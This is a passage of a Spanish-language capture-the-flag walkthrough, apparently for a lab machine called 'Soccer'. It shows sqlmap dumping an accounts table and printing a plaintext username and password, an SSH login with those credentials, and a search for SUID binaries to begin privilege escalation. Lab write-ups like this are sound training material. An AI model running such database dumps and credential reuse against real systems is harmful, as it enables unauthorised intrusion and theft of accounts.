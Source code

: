
Vamos encontrando consas interesantes, veamos que contienen los campos ***username*** y ***password***

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump

Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
```

Enhorabuena, tenemos un usuario -> ***player*** y un password o contraseña -> ***PlayerOftheMatch2022***.
Cosa que probraremos a continuacion, sera conectarnos por ***ssh*** con esta informacion que tenemos.

Conseguimos acceso, vemos que que usuario somos y en que equipo nos encontramos, ya podemos visualizar la primera ***flag*** y con menzar con la escalada de privilegios.
 
 ```bash
❯ ssh player@10.10.11.194
player@10.10.11.194's password: PlayerOftheMatch2022
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```
```bash
player@soccer:~$ whoami
layer
```
```bash
player@soccer:~$ hostname -I
10.10.11.194 dead:beef::250:56ff:feb9:636c 
```
```bash 
player@soccer:~$ cat user.txt 
2b****************************de
 ```

Buscamos archivos binarios ***SUID*** que podamos explotar de alguna manera.

```bash
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
```